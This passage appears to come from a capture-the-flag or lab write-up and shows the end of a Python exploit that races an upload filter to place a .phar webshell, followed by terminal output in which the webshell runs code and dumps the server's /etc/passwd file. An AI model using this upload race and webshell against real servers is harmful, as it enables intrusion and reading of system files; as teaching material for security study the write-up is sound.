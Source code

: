 ```python
    thread = threading.Thread(target=race_for_webshell)
    thread.start()
    response = requests.post(url, files=files, data=data, headers=headers)
    if 'Extension not allowed!' in response.content.decode():
        print('Extension not allowed!')
        fail = True
    thread.join()
```

This is the result of our exploit:

```bash
┌──(kali㉿kali)-[~/Desktop/exploit]
└─$ python3 exploit.py               
Uploading Webshell and starting the race...
Failed 404: uploads/47e6ed8a191edae5ec33d6ba6e5e7373/rce.phar

http://www.justheretowintherace.com/
Running code...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
developer:x:1002:1002::/home/developer:/bin/bash
```

